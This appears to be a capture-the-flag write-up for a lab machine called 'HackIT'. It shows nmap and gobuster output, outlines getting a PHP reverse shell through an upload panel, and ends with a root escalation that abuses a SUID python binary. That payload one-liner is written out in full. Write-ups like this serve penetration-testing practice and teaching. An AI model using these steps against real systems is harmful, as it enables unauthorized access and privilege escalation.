

# NMAP

-> Standard Port scan res:

```BASH
└─$ nmap -T5 -A 10.10.242.137 -oN nmapScanStanrds.xml                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-27 17:15 IST
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.28s latency).
Not shown: 930 closed tcp ports (reset), 68 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   203.83 ms 10.23.0.1
2   203.76 ms 10.10.242.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.72 seconds
```

-> All Ports scan res:

```bash 
# Nmap 7.95 scan initiated Fri Jun 27 17:17:19 2025 as: /usr/lib/nmap/nmap --privileged -T5 -p- -oN nmapScanFull.xml 10.10.242.137
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.18s latency).
Not shown: 64700 closed tcp ports (reset), 833 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Fri Jun 27 17:27:20 2025 -- 1 IP address (1 host up) scanned in 600.57 seconds

```

-> Dirbusting with Gobuster:

```bash
└─$ gobuster dir -u 10.10.242.137 -w /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.137
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.242.137/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.242.137/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.242.137/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.242.137/uploads/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

-> we have `/panel` and `/uploads` dirs that can be used for uploading shell (php(php5 worked here)) and access from uploads subsequently.

> Note: Why PHP shell?, i dunno although Wappalyzer didn't work for server script but its most typical CTF challenge style where they have php shell technique to gain initial hold. Nevertheless we can ask from GPT as we found server atleast.
> 


-> `/panel`


-> `/uploads`


-> got revere shell


-> user.txt


-> upgrading shell


-> escalating privilege


-> fortunately we have SUID bit set in python(/usr/bin/python), and rest is on GTFOBINS.




-> Payload: `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`


-> root flag


